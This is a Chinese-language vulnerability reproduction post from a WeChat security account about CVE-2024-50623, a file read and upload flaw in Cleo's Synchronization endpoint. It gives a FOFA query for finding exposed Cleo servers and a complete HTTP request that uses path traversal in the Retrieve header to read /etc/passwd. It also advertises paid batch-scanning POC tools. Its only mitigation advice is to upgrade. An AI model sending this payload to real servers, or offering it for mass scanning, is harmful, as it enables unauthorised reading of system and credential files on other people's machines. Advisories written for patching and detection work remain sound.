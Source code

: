 #  Cleo Synchronization接口任意文件读取漏洞CVE-2024-50623 附POC   
2025-4-23更新  南风漏洞复现文库   2025-04-23 15:33  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Cleo 简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
Cleo  
## 2.漏洞描述  
  
Cleo LexiCom等都是Cleo公司的产品，其中Cleo LexiCom是集成平台，Cleo Harmony是文件集成解决方案，Cleo VLTrader是安全托管文件传输软件。2024年12月，互联网上披露 CVE-2024-50623 Cleo Synchronization 任意文件读取上传漏洞，攻击者可读取遍历文件或者上传恶意文件，造成敏感信息泄漏或者任意代码执行。  
  
CVE编号:CVE-2024-50623  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Cleo  
![Cleo Synchronization接口任意文件读取漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3beFaEL3HezwRI4lIwN0dUBpoWUuCeNauds4YqYTpUAJKC0QOicqibiaLJyhHPLM1bWavLbavw0GZXMQ/640?wx_fmt=png&from=appmsg "null")  
  
Cleo Synchronization接口任意文件读取漏洞  
## 4.fofa查询语句  
  
server="Cleo"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/Synchronization  
  
漏洞数据包：  
```
GET /Synchronization HTTP/1.1
Host: xx.xx.xx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: csrftoken=z1GtnjQWsIKwGazlFX7V; csrftoken=NX6iujIUcamW9umprA1vx19dzU6EZNLa; csrftoken=kZ4jVQ4uZtITYtnweSsVDUEwZ2ltraTF
Priority: u=4
Retrieve: l=Ab1234-RQ0258;n=VLTrader;v=7.2.1;a=1337;po=1337;s=True;b=False;pp=1337;path=../../etc/passwd
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3beFaEL3HezwRI4lIwN0dUBKAe0y2ta9sia2svTngcTxpraC4EbfV4vh9e08nxaiaVyIsUULcjP3KSw/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3beFaEL3HezwRI4lIwN0dUByq3DwibibMkBusoEz3n1WfnHNqS4gNvj8UbO7OARZePoInmZfI3wBpKQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3beFaEL3HezwRI4lIwN0dUBTGVlWOQUibOJbVBBPYtaWGdI11cqiaxQfMmcVhsXHbHaYUXJWHO88WgA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3beFaEL3HezwRI4lIwN0dUBynshN9M8D7pssFrjEy9bvyFUUibD4CI4BTI4WL6Jsibwk9PR93d1jb2A/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3beFaEL3HezwRI4lIwN0dUBegSjxMicg2tJsyTHIPoNiaicXJvAcwRe9Fj3jibWLj0v3FNq0HnPhvL2fA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3beFaEL3HezwRI4lIwN0dUBBv65Vp7Z9NF8FM5rTUaszDEt4TLyzZP4l5eUh9O9GvxTQKcXIa4bag/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
升级至最新版本。  
## 8.往期回顾  
  
  
   
  
  
  
